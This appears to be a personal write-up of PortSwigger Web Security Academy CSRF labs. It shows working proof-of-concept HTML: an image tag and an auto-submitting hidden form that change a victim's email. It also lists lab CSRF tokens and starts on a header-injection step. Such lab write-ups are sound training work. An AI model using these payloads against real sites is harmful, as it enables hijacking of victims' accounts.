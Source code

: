This one was very simple. As the name suggests, we need to change the request method to bypass the CSRF token validation. The portswigger learning material suggest starting with GET requests, so I did just that and it worked right away. 

```html
<html>

<body>

<img src="https://ac341fce1e526d48c09620b8000a009c.web-security-academy.net/my-account/change-email?email=test123@1test123.com"/>

<body>

</html>

```

## Lab: CSRF where token validation depends on token being present

This one is also as the name suggests, just send the request without the token present. 

```html
<html>
    <body>
        <form action="https://ac341f851fd36ff9c04334a00066009d.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Lab: CSRF where token is tied to non-session cookie

The wiener user key and token are:
```text
csrfKey=NasDIKNGTlh331nyYBjc3DH3gR0wiqex
csrf=JnRbd0xm0AN1gAwGgyvLx8ImWnAVH8gE
```

carlos user key and token are:
```text
csrfKey=1tPCQvcdJld5TL4Wdd3WKkmqQ7RDLxRd
csrf=N3Jp8GJiixQ5blra9YfwoB13
```

So we need to do a CLRF attack to set the csrfKey to the one I want. Each Set-Cookie can only set one value. 
```
The Set-Cookie HTTP response header is used to send a cookie from the server to the user agent, so that the user agent can send it back to the server later. To send multiple cookies, multiple Set-Cookie headers should be sent in the same response.
```
